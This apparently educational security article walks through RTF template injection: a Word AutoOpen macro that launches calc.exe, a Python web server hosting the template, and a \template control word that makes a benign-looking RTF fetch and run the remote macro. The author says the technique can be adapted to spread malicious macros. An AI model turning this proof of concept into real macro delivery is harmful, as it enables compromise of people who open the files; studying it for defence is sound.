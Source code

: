 ```yaml
---
title: 'RTF Template Injection'
date: '2022-02-09'
description: 'In this example, we will demonstrate how to use the “template” control word to cause an RTF file to pop up the calculator app when opened.  “Hold on... I can use the Start menu to do that. Why should I care?”, you may wonder. The simple answer is that this technique can be easily modified to spread malicious macros using otherwise benign looking RTF files.'
coverimage: RTF_Template_Injection.jpg
tags: exploit-development, rtf
published: true
posttype: article
---
```


In this example, we will demonstrate how to use the “template” control word to cause an RTF file to pop up the calculator app when opened.  “Hold on... I can use the Start menu to do that. Why should I care?”, you may wonder. The simple answer is that this technique can be easily modified to spread malicious macros using otherwise benign looking RTF files.

## What is an RTF file?

Tapping away in front of your Macintosh or the early versions of Windows, did you ever wonder what those .rtf files (Rich Text Format) were that you ever so occasionally encountered? The ones that were opened up with text editors (featuring a horizontal ruler) other than your trusted notepad?

RTF traces back to the late 1980s when it was developed and released. Rich text format files, as opposed to plain text files, can contain images, different font styles, formatting, and more. They are interoperable, which means they can be processed by a wide range of technologies, making them a portable file type. 

## Why should I care?

"Why should I care?" you might wonder. The short answer is that with little modification, this technique can be leveraged to spread malicious macros in otherwise benign RTF files - as actively being done by threat actor groups online. Within RTF files, specific control words (see http://latex2rtf.sourceforge.net/rtfspec_62.html for more) are used. These control words are specially formatted commands that instruct applications how to handle the file. Let us get started!  

# Instructions - RTF template injection with a calculator pop-up

In this example, we will demonstrate how to use the "template" control word to cause an RTF file to fetch another file from a web server controlled by us.  This example makes use of the template editing capabilities of RTF files, as well as the ability to fetch resources from a specified URL. The code we will use opens up a calculator on a Windows-based operating system when the RTF file is run. Note that macros will require enabling on your system.

<h5 class="step">Step 1 - Create a macro-enabled Word template file</h5>

This file will contain our macro that executes the calculator app when the RTF file is opened. 

Open Word and add the following Visual Basic code (macro) to it. Save the file as `calc.dotm`. 

```
Sub AutoOpen()
Dim Program As String
Dim TaskID As Double
Program = "calc.exe"
TaskID = Shell(Program, 1)
End Sub
```

*If you are unfamiliar with creating Word template files, we recommend checking out Microsoft's documentation on them: https://support.microsoft.com/en-us/office/save-a-word-document-as-a-template-cb17846d-ecec-49d4-82ea-a6f5e3e8b9ae.*

<h5 class="step">Step 2 - Start a web server</h5>

Launch an HTTP server in the folder containing the 'calc.dotm' file using your preferred method. If you are using Python 3, you can use the following command with the port number of your choice. 

```
python3 -m http.server <port number>
```

<h5 class="step">Step 3 - Create a benign RTF file</h5>

Get or make a simple RTF file. We will modify this in the next step to fetch our macro-enabled template file from the web server launched.

![](5e05c49b-2704-464a-9eb8-6afe16b298ec.png)

*There are sample RTF files you can use available online. Please always have your anti-virus solution enabled when downloading files from the Internet.*

<h5 class="step">Step 4 - Add remote template fetching capabilities to the RTF file</h5>

Use a HEX editor to open the RTF file created in the previous step. I used Hex Editor Neo. 

Look for a pre-existing enclosing group for a font family control word (for example, Times New Roman if your file uses it). Insert the following text after the font's ending tag with your listening IP and port + payload/file to fetch. 

```
{\*\template http://<your-IP>:<port number>/calc.dotm}
```

![](514cab5a-57fa-4783-9db1-35ca3867a8ef.png)

<h5 class="step">Step 5 - Show time</h5>

Save the changes and open the RTF file in its default application. If you are a Windows user, this will likely be Word. The remote file will be loaded from your web server and used to launch the calculator program when the RTF file is opened.

The below screen capture displays the macro-enabled template file being fetched.

![](20e0eb7d-9a66-4ff2-991c-366e9a7a3d84.png)

The below screen capture displays the RTF file opened and the calculator app launched.

![](c6ec75ba-dad0-4755-903a-7de8f5065320.png)

### Well that was easy... Where to from here?

I hope this article has served as a foundation for your further explorations. Why not look into creating your custom macro-enabled template files next?